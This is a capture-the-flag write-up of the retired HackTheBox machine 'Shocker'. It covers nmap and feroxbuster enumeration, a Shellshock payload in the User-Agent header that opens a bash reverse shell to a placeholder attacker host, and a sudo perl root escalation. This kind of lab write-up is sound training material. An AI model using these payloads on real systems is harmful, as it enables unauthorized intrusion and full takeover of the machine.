 ```yaml
---
layout: post
title: HacktheBox - Shocker
toc: true
subtitle: Retired Machine
comments: false
---
```


## Shocker ![propic](/pictures/shocker/shocker.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/shocker 10.10.10.56
```
![nmap](/pictures/shocker/nmap.png)

I notice that port 80 & 2222 are open. First, I navigate to the webpage and only see a png file. Knowing that the machine is called shocker, I assume this is vulnerable to shellshock.

To confirm, I run the shellshock nmap script to validate its vulnerability to the attack.

![shockerscript](/pictures/shocker/nmap-shocker.png)

It clearly indicates the machine is vulnerable. For more enumeration, I will use dirbuster to look for any hiddle directories. 

Unfortunately there are no initial directories found, so I leverage dirbuster with the -f flag to find directories with the ending forward slash. The directory cgi-bin was found during the second directory search. 

With this information, I google common script extensions in cgi-bin and find .sh, .cgi, & .pl. Using these script extensions, I run the following command in feroxbuster against the cgi-bin directory:

```
feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl
```
![ferox](/pictures/shocker/ferox.png)

The user.sh file was found, and shows a basic uptime test script. However, by leveraging burp, I can now use the shellshock vulnerability against the GET cgi-bin/user.sh file to run bashcommands. This means that I can create a bash reverse shell with this string inside the user agent:

```
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<attacker_ip>/4443 0>&1
```

![burp](/pictures/shocker/burp.png)

With the listener setup on port 4443 on my attacker host, I receive a bash shell under Shelly. This allows me to find the user.txt file under /home/shelly.
![user](/pictures/shocker/user.png)

The first thing I check to escalate privileges is the current sudo permissions. Here, I find that shelly can run sudo privileges on the perl binary in /bin/perl. 

Obtaining root from here is easy as I google GTFOBins and look for sudo perl escalations.

```
sudo perl -e 'exec "/bin/sh";'
```
Finally, I have obtained root and found the root flag under /root/root.txt.
![root](/pictures/shocker/root.png)
